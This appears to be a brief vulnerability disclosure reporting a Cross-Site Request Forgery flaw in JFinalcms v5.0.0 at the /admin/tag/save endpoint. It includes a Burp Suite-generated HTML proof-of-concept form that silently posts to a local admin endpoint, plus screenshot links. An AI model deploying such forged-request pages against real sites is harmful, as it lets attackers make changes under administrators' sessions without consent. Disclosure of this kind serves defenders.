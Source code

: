 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/tag/save


![图片](https://github.com/cui2shark/cms/assets/52313275/625ccf4a-bf8c-49bd-bfb7-d2fd790c7ed7)

create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/dd4ab549-ec56-4b07-9063-cb6c278db262)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/tag/save" method="POST">
      <input type="hidden" name="name" value="cs" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/183e4b23-8295-4728-9bcf-70bc29b0fb45)
